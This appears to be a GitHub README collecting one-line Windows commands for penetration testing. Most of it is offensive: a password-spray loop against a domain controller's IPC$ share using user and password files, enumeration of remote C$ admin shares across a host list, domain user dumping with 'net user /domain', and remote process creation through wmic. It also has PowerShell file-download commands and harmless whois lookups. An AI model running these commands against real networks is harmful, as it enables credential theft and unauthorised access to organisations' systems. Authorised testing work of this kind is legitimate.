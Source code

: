 # oneliners
One line DOS commands useful during pentests

for /f %a in (hosts.txt) do dir /b /s \\\\%a\\C$\\Users\\file*

for /f %a in (hosts.txt) do @if exist \\\\%a\\C$\\Users\\ echo users found on %a

Build a user list, but will need to edit the output before using
for /f "skip=2 tokens=1,2,3" %i in ('net user /domain') do @echo %i >>testuser.txt & @echo %j >>testuser.txt & @echo %k >>testuser.txt

password spray
@FOR /F %n in (users.txt) DO @FOR /F %p in (pass.txt) DO @net use \\DOMAINCONTROLLER\IPC$ /user:DOMAIN\%n %p 1>NUL 2>&1 && @echo [*] %n:%p && @net use /delete \\DOMAINCONTROLLER\IPC$ > NUL 

invoke-webrequest -uri url -outfile filename
(New-Object System.Net.WebClient).DownloadFile("url","output")

wmic process call create "cmd.exe /c calc.exe"

(Bash) for i in (cat filename); do echo $i; done

With GDPR there is different information available between variosu registrars.  This whois query will query the specific registrar and return results direct from the registrar:
whois -h $(whois apple.com | grep 'WHOIS Server' | cut -d: -f 2) apple.com
or look up a few like this:
for i in sans.org theonion.com; do whois -h $(whois $i | grep 'WHOIS Server' | cut -d: -f 2) $i; done









